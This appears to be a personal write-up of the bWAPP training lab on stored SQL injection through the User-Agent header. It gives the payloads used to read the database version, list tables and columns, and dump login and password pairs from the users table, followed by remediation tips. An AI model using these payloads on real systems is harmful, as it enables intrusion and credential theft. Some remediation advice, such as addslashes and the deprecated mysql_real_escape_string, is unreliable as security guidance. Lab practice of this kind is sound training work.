






# 1. Low
On first arrived on `/bWAPP/sqli_17.php`, I Found that the server is showing 3 Object:
- Date/time arrived
- User-Agent 
- IP Address
 


With 3 of following data, I know that server stored User-Agent from Client requested. To make sure, I changed UA to `This Is UA'` and following is the result



After closing single quote, there was Error on `My_IP')` So I guess that the full parameter might be liked `SELECT ('DATE','UserAgent','IPAdress')` So when we Input single quote >> `SELECT ('DATE','UserAgent'','/ERROR_HERE/IPAdress')`. I going to complete the statements and put below error code with following like:
- Payload: `SELECT ('DATE','UserAgent', 'IpAddress')#,'IPAdress')`



Yea, It's success to changed. Before I noticed that the server return ERROR statement from SQL, so... Let's try to select some tables:
- Payload: `SELECT ('DATE','UserAgent', (SELECT @@VERSION))#,'IPAdress')`

![[SQL_S-UA_L3.png]]

- Payload: `SELECT ('DATE','UserAgent', (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.Tables WHERE TABLE_SCHEMA=database()))#,'IPAdress')`



- Payload: `SELECT ('DATE','UserAgent', (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users'))#,'IPAdress')`



- Payload: `SELECT ('DATE','UserAgent', (SELECT GROUP_CONCAT(login,'|',password) FROM users WHERE login='bee'))#`



---
# 2. Medium
In the Lab, there was using XSS and SQL Validation which I mentioned in previous labs so, I stop here.

```php
function sqli($data){
    include("connect_i.php");  
    switch ($_COOKIE["security_level"]){  
        case "0" :  
            $data = no_check($data);  
            break;  
        case "1" :  
            $data = sqli_check_1($data);  
            break;  
        case "2" :  
            $data = sqli_check_3($link, $data);  
            break;  
        default :  
            $data = no_check($data);  
            break;  
    }  
    return $data;  
}  
  
function xss($data){  
    switch ($_COOKIE["security_level"]){  
        case "0" :  
            $data = no_check($data);  
            break;  
        case "1" :  
            $data = xss_check_4($data);  
            break;  
        case "2" :  
            $data = xss_check_3($data);  
            break;  
        default :  
            $data = no_check($data);  
            break;  
    }  
    return $data;  
}
```

---
# 3. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)